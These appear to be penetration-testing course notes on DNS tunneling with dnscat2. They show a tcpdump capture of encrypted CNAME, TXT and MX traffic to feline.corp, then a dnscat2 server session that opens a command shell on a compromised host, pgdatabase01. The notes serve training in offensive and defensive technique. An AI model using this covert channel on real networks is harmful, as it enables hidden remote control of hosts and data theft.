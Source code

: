 ```
07:22:16.398299 IP 192.168.118.4.domain > 192.168.50.64.50860: 16449 1/0/0 MX 385b0158e0dbec12770c9affff57240ba6.feline.corp. 10 (126)
07:22:16.751880 IP 192.168.50.64.49350 > 192.168.118.4.domain: 5272+ [1au] MX? 68fd0140b667aeb6d6d26119c3658f0cfa.feline.corp. (75)
07:22:16.752376 IP 192.168.118.4.domain > 192.168.50.64.49350: 5272 1/0/0 MX d01f0140b66950a355a6bcffff0866c42a.feline.corp. 10 (126)
07:22:17.407889 IP 192.168.50.64.50621 > 192.168.118.4.domain: 39215+ MX? cd6f0158e082e5562128b71e1353f111be.feline.corp. (64)
07:22:17.408397 IP 192.168.118.4.domain > 192.168.50.64.50621: 39215 1/0/0 MX 985d0158e00880dad6ec05ffff57240ba6.feline.corp. 10 (126)
07:22:17.762124 IP 192.168.50.64.49720 > 192.168.118.4.domain: 51139+ [1au] TXT? 49660140b6509f242f870119c47da533b7.feline.corp. (75)
07:22:17.762610 IP 192.168.118.4.domain > 192.168.50.64.49720: 51139 1/0/0 TXT "8a3d0140b6b05bb6c723aeffff0866c42a" (111)
07:22:18.417721 IP 192.168.50.64.50805 > 192.168.118.4.domain: 57236+ TXT? 3e450158e0e52d9dbf02e91e1492b9d0c5.feline.corp. (64)
07:22:18.418149 IP 192.168.118.4.domain > 192.168.50.64.50805: 57236 1/0/0 TXT "541d0158e09264101bde14ffff57240ba6" (111)
07:22:18.772152 IP 192.168.50.64.50433 > 192.168.118.4.domain: 7172+ [1au] TXT? d34f0140b6d6bd4779cb2419c56ad7d600.feline.corp. (75)
07:22:18.772847 IP 192.168.118.4.domain > 192.168.50.64.50433: 7172 1/0/0 TXT "17880140b6d23c86eaefe7ffff0866c42a" (111)
07:22:19.427556 IP 192.168.50.64.50520 > 192.168.118.4.domain: 53513+ CNAME? 8cd10158e01762c61a056c1e1537228bcc.feline.corp. (64)
07:22:19.428064 IP 192.168.118.4.domain > 192.168.50.64.50520: 53513 1/0/0 CNAME b6e10158e0a682c6c1ca43ffff57240ba6.feline.corp. (124)
07:22:19.782712 IP 192.168.50.64.50186 > 192.168.118.4.domain: 58205+ [1au] TXT? 8d5a0140b66454099e7a8119c648dffe8e.feline.corp. (75)
07:22:19.783146 IP 192.168.118.4.domain > 192.168.50.64.50186: 58205 1/0/0 TXT "2b4c0140b608687c966b10ffff0866c42a" (111)
07:22:20.438134 IP 192.168.50.64.65235 > 192.168.118.4.domain: 52335+ CNAME? b9740158e00bc5bfbe3eb81e16454173b8.feline.corp. (64)
07:22:20.438643 IP 192.168.118.4.domain > 192.168.50.64.65235: 52335 1/0/0 CNAME c0330158e07c85b2dfc880ffff57240ba6.feline.corp. (124)
07:22:20.792283 IP 192.168.50.64.50938 > 192.168.118.4.domain: 958+ [1au] TXT? b2d20140b600440d37090f19c79d9f6918.feline.corp. (75)
...
```

The dnscat2 process is using _CNAME_, _TXT_, and _MX_ queries and responses
+ As indicated by this network data, DNS tunneling is certainly not stealthy!
+ This output reveals a huge data transfer from the dnscat2 client to the server
+ All the request and response payloads are encrypted, so it's not particularly beneficial to keep logging the traffic
+ Will go ahead and kill tcpdump with Ctrl+C

Now we'll start interacting with our session from the dnscat2 server
+ Let's list all the active windows with the **windows** command, then run **window -i** from our new "command" shell to list the available commands:
```
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas
This is a command session!

```